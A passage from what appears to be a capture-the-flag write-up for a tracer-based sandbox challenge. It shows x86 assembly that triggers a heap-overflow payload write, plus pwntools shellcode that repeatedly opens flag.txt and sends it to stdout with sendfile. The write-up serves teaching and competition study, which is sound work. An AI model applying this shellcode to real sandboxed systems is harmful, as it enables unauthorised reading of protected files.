 ```x86asm
mov rax, 690
syscall
mov rax, 690
syscall
...
mov rax, 690
syscall

mov rcx, 10000000000
loop: dec rcx
jnz loop

mov eax, 1
lea rsi, [rip + 9]
mov rdx, 0xff
syscall
```

We use the `lea rsi, [rip + 9]` instr before the `write` syscall because the payload to be written (described briefly within [here](#offset-for-the-heap-overflow)) occurs immediately after the syscall opcodes. 

### Box 1

At first, we wanted Box 1 to continuously attempt to spawn a shell, but given that the pre-write hook is still there and prevents the the child tracee from writing to its stdout (that is piped back to the tracer in `read_box`), we realized that the shell would not be able to communicate with us (at least it would not be able to write back to us). Thus, we opted to just read the flag directly. 

Box 1 loops continuously, attempting to make 2 syscalls

1. open `flag.txt`, which returns a fd for the flag file, and
2. sendfile, which sends data from one fd (from the open syscall) to another (stdout)

The Python code involved in constructing it is shown below

```python
shc = f'''
    start: 
    {shellcraft.open('flag.txt', 0, 0)}
    mov r10d, 0x1010201
    xor r10d, 0x1010301
    push 1
    pop rdi
    xor edx, edx
    mov rsi, rax
    push SYS_sendfile
    pop rax
    syscall
    jmp start
    '''
```

For the `sendfile` syscall, I just took the assembly code for `shellcraft.sendfile(1, 1, 0, 0x100)` and modified `mov rsi, rdi` to `mov rsi, rax`. 

## Flag

Feel free to run the [solve script](./solve.py) (no guarantees that the infra is still up)
